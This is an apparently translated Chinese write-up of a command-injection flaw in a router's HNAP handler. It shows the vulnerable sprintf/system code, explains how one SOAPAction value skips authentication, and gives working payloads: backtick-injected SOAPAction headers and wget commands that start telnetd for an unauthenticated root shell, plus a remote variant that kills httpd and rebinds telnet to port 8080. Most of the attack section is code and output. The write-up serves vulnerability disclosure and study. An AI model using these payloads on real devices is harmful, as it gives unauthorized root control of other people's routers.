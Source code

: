 ```
}
else
{
    goto failure_condition;
}

/* Build the command using the specified SOAPAction string and execute it */
sprintf(command, "sh %s%s.sh > /dev/console", "/var/run/", SOAPAction);
system(command);

```

以下是这个漏洞产生的两个重要原因：  
1.如果SOAPAction头包含http://purenetworks.com/HNAP1/GetDeviceSettings字符串，那么就不需要认证。  
2.程序会将SOAPAction头中最后一个/后的字符串被带入sprintf构造shell命令，并且调用system函数进行执行。  
因此，我们很容易就可以构造出一个SOAPAction报头，既可以绕过认证，又可以将任意命令带入系统执行：

```
SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`reboot`"

```

将reboot命令替换成telnetd，就可以开启路由器的telnet服务，获得一个无需认证的root权限shell：

```
$ wget --header='SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`telnetd`"' http://192.168.0.1/HNAP1
$ telnet 192.168.0.1
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.


BusyBox v1.14.1 (2015-02-11 17:15:51 CST) built-in shell (msh)
Enter 'help' for a list of built-in commands.

```

如果开启了远程管理功能，HNAP请求将向WAN开放，这就使远程利用成为可能。当然，路由器的防火墙将阻断来自WAN的telnet连接。有一个简单的解决办法，就是结束HTTP服务器进程，将telnet服务器的端口设置成和HTTP服务器相同：

```
$ wget --header='SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`killall httpd; telnetd -p 8080`"' http://1.2.3.4:8080/HNAP1
$ telnet 1.2.3.4 8080
Trying 1.2.3.4...
Connected to 1.2.3.4.
Escape character is '^]'.


BusyBox v1.14.1 (2015-02-11 17:15:51 CST) built-in shell (msh)
Enter 'help' for a list of built-in commands.

```
